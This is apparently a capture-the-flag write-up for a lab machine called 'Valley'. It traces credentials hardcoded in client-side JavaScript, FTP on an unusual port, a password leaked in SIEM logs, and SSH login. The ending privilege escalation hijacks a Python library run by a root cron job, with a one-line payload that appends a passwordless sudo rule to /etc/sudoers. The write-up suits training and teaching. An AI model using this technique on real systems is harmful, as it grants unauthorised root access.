 # Valley

We got a website on http://valley.thm port 80<br>
![valley.thm](./imgs/valley.thm.png)<br>
<hr>
Here is some usernames that found during my research:<br>
- valleyDev<br>
- siemDev<br>
<hr>

http://valley.thm/pricing/note.txt
```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```
So we know that there is a page */dev1243224123123* and also we know that there is a *siem*, and maybe we will be able to find in the siem logs.<hr>

**Research of http://valley.thm/dev1243224123123**<br>
I viewed the source code and found this piece of code in one of the js files.
```
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

It gives us:<br>
- Credentials: `siemDev:california`
- Page: http://valley.thm/dev1243224123123/devNotes37370.txt
<hr>

http://valley.thm/dev1243224123123/devNotes37370.txt<br>
```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```
- someone reuses creds on ftp server.
- FTP is enable, but on different port.

nmap found `FTP` for me on port = **37370/tcp**
<hr>

We have siem files on the ftp server. I started researching them and found this line there:<br>
```
uname=valleyDev&psw=ph0t0s1234&remember=onHTTP/1.1 200 OK
```
which gives us new creds:<br>
- `valleyDev:ph0t0s1234`

I made a successful connection via `ssh` with those creds and started looking for privilege escalation method.
<hr>

# Privilege Escalation
- `whoami` - `valleyDev`
- A script running in `crontab`
- The script uses `base64` library
- Group `valleyAdmin` can edit `base64.py`
- User: `valley` in the group
- `/home/valleyAuthenticator`
- `upx -d valleyAuthenticator`
- Found hashes in `strings`
- `valley:liberty123`

Than I started editing `base64.py` and added there this code:
```
import os

os.system('echo "valley ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers')
```
This code gives the user valley absolute sudo privileges with no password. Wait until the script runs again and now valley is super user.
`sudo su`.